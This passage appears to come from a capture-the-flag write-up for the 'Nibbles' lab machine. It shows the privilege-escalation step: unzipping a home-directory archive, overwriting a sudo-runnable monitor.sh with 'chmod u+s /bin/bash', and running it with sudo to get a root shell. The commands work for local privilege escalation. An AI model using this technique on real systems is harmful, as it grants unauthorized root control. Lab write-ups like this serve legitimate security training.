 ![](/assets/Nibbles/17.png)
<br />
<br />
<br />

This file is **compressed in a zip file** in our **home directory**:
```bash
unzip personal.zip
```

![](/assets/Nibbles/18.png)
<br />
<br />
<br />

We have **write permissions** over the ***stuff* directory**, so we can create an **arbitrary script and run it with ``sudo``**:
<br />
![](/assets/Nibbles/19.png)
<br />
<br />
<br />

We will establish the **SUID bit** in the ***/bin/bash* file** and then leverage it:
```bash
rm /home/nibbler/personal/stuff/monitor.sh
echo "chmod u+s /bin/bash" > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

![](/assets/Nibbles/20.png)
<br />
<br />
<br />
